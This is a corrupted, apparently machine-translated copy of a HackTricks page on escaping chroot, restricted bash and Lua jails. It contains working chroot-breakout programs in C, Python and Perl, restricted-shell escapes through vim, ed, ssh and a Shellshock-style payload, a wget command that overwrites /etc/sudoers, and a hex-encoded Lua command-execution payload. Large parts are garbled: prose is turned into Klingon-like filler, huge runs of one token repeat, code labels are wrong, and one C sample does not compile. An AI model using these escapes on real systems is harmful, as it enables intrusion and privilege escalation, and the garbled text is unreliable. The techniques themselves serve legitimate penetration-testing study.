 # Escaping from Jails

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## **GTFOBins**

**Search in** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **if you can execute any binary with "Shell" property**

## Chroot Escapes

From [wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations): The chroot mechanism is **not intended to defend** against intentional tampering by **privileged** (**root**) **users**. On most systems, chroot contexts do not stack properly and chrooted programs **with sufficient privileges may perform a second chroot to break out**.\
Usually this means that to escape you need to be root inside the chroot.

{% hint style="success" %}
The **tool** [**chw00t**](https://github.com/earthquake/chw00t) was created to abuse the following escenarios and scape from `chroot`.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
If you are **root** inside a chroot you **can escape** creating **another chroot**. This because 2 chroots cannot coexists (in Linux), so if you create a folder and then **create a new chroot** on that new folder being **you outside of it**, you will now be **outside of the new chroot** and therefore you will be in the FS.

This occurs because usually chroot DOESN'T move your working directory to the indicated one, so you can create a chroot but e outside of it.
{% endhint %}

Usually you won't find the `chroot` binary inside a chroot jail, but you **could compile, upload and execute** a binary:

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Klingon</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>

Perl (pIqaD)
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + Saved fd

{% hint style="warning" %}
Qa'Hom je vItlhutlh. vaj Qa'Hom **file descriptor** laH **current directory** 'ej **chroot** **new folder**. vaj, **access** **FD** **outside** chroot, 'ej **escapes**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FD can be passed over Unix Domain Sockets, so:

* Create a child process (fork)
* Create UDS so parent and child can talk
* Run chroot in child process in a different folder
* In parent proc, create a FD of a folder that is outside of new child proc chroot
* Pass to child procc that FD using the UDS
* Child process chdir to that FD, and because it's ouside of its chroot, he will escape the jail
{% endhint %}

### &#x20;Root + Mount

{% hint style="warning" %}
* Mounting root device (/) into a directory inside the chroot
* Chrooting into that directory

This is possible in Linux
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* Mount procfs into a directory inside the chroot (if it isn't yet)
* Look for a pid that has a different root/cwd entry, like: /proc/1/root
* Chroot into that entry
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Create a Fork (child proc) and chroot into a different folder deeper in the FS and CD on it
* From the parent process, move the folder where the child process is in a folder previous to the chroot of the children
* This children process will find himself outside of the chroot
{% endhint %}

### ptrace

{% hint style="warning" %}
* Time ago users could debug its own processes from a process of itself... but this is not possible by default anymore
* Anyway, if it's possible, you could ptrace into a process and execute a shellcode inside of it ([see this example](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash Jails

### Enumeration

Get info about the jail:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### Modify PATH

QaD jImejDaq PATH env variable vItlhutlh.
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### Using vim

#### Introduction

Vim is a powerful text editor that is commonly found on Linux systems. It can be used to edit files, write scripts, and even execute commands. In this section, we will explore how Vim can be used to escalate privileges and gain root access on a compromised system.

#### Escaping from Limited Bash

When an attacker gains access to a compromised system, they are often limited to a restricted shell such as Bash. However, Vim can be used to escape from this limited environment and gain access to a full-featured shell.

To start, the attacker can open Vim by typing `vim` in the restricted shell. Once inside Vim, they can execute commands by using the `:!` command followed by the desired command. For example, to execute the `id` command, the attacker can type `:!id` and press Enter.

By using this technique, the attacker can execute any command with the privileges of the user running Vim. If the user has sudo privileges, the attacker can even escalate their privileges to root by executing commands with `sudo`.

#### Conclusion

Vim can be a powerful tool for privilege escalation on a compromised system. By using Vim's ability to execute commands, an attacker can escape from a limited shell and gain access to a full-featured shell with elevated privileges. It is important for system administrators to be aware of this technique and take steps to secure their systems against it.
```bash
:set shell=/bin/sh
:shell
```
### Qap script

QapwI' _/bin/bash_ content vItlhutlh. DaH jImej!
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### Get bash from SSH

If you are accessing via ssh you can use this trick to execute a bash shell:

### SSH-vaD

vaj SSH-vaD vItlhutlh. vaj 'ej vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh v
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### Qap

#### Introduction

In the world of hacking, privilege escalation is a crucial technique that allows hackers to gain higher levels of access and control over a compromised system. One common scenario is when a hacker gains access to a limited bash shell and needs to escape from its restrictions to execute more powerful commands.

#### Escaping from a Limited Bash Shell

When dealing with a limited bash shell, there are several techniques that can be used to escape its constraints and gain higher privileges. Here are some of the most effective methods:

1. **Environment Variable Manipulation**: By manipulating environment variables, a hacker can trick the limited bash shell into executing commands with higher privileges. This can be achieved by modifying variables like `PATH` or `LD_LIBRARY_PATH` to point to directories containing malicious binaries.

2. **Shell Built-in Commands**: Limited bash shells often have restrictions on external commands, but they still allow the use of built-in commands. By leveraging these built-in commands, a hacker can execute powerful actions without relying on external binaries. Examples of useful built-in commands include `eval`, `exec`, and `export`.

3. **Shell Metacharacters**: Metacharacters are special characters that have a specific meaning in the shell. By using metacharacters cleverly, a hacker can bypass restrictions and execute arbitrary commands. Some commonly used metacharacters include `;`, `&`, `|`, and `>`.

4. **Shell Variables**: Limited bash shells may restrict the use of certain shell variables, but they often allow the creation and manipulation of new variables. By creating custom variables and assigning them values that allow for privilege escalation, a hacker can break free from the limitations of the limited shell.

5. **Shell Function Abuse**: Limited bash shells often allow the creation and execution of shell functions. By defining a malicious function and executing it, a hacker can gain higher privileges. This technique is particularly useful when external commands are restricted.

#### Conclusion

Escaping from a limited bash shell is a critical skill for hackers looking to escalate their privileges on a compromised system. By understanding and leveraging techniques like environment variable manipulation, shell built-in commands, shell metacharacters, shell variables, and shell function abuse, hackers can break free from the constraints of a limited shell and gain full control over a compromised system.
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

**tlhIngan Hol:**

bIQtIqDaq sudoers file vItlhutlh.
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### QaD jup

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**It could also be interesting the page:**

{% content-ref url="../useful-linux-commands/bypass-bash-restrictions.md" %}
[bypass-bash-restrictions.md](../useful-linux-commands/bypass-bash-restrictions.md)
{% endcontent-ref %}

## Python Jails

Tricks about escaping from python jails in the following page:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua Jails

In this page you can find the global functions you have access to inside lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Eval with command execution:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
**ghItlhvam vItlhutlh** **'ej** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam vItlhutlh** **'e'** **neH** **ghItlhvam 